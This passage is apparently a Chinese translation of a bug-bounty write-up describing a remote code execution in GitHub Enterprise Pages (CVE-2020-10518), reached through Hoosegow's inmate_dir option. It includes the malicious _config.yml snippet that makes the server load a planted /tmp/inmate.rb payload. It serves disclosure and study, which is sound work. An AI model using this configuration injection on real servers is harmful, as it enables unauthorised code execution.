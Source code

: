 该脚本基本上能找到所有符合正则的常量，并尝试使用哈希创建一个新的实例。我登录到GHE服务器，进入页面目录并运行脚本。只有部分显示`worked`或者`maybe`，大部分显示`StandardError`。

我盯着类的列表，看看初始化器中发生了什么，一开始没有找到有趣的东西，直到看到这个：

```
trying Hoosegow
#&lt;Hoosegow::InmateImportError: inmate file doesn't exist&gt;
maybe
```

这里看起来很有希望成为切入点! [Hoosegow initialize method](https://github.com/github/hoosegow/blob/v1.2.6/lib/hoosegow.rb#L34)的初始化方法如下：

```
def initialize(options = `{``}`)
    options         = options.dup
    @no_proxy       = options.delete(:no_proxy)
    @inmate_dir     = options.delete(:inmate_dir) || '/hoosegow/inmate'
    @image_name     = options.delete(:image_name)
    @ruby_version   = options.delete(:ruby_version) || RUBY_VERSION
    @docker_options = options
    load_inmate_methods
```

`load_inmate_methods` 方法如下:

```
def load_inmate_methods
    inmate_file = File.join @inmate_dir, 'inmate.rb'

    unless File.exist?(inmate_file)
      raise Hoosegow::InmateImportError, "inmate file doesn't exist"
    end

    require inmate_file
```

这真是太完美了! 由于可以在`options`哈希中添加任何东西，这将允许传递我们自己的`inmate_dir`目录，然后需要做的就是在那里等待一个恶意的 `inmate.rb`文件。

按照之前相同的过程，我编辑了`_config.yml`，内容如下:

```
kramdown:
  syntax_highlighter: rouge
  syntax_highlighter_opts:
    formatter: Hoosegow
    inmate_dir: /tmp/
```

然后在GHE服务器上成功创建了带有payload的`/tmp/inmate.rb`文件，并被推送到jekyll网站。几秒钟后，该文件被获取，payload也成功得到执行!

[![](https://devcraft.io/assets/github/changelog3.jpg)](https://devcraft.io/assets/github/changelog3.jpg)

最终，这个被命名为CVE-2020-10518的漏洞得到了修复，我也获得了$25000的赏金。
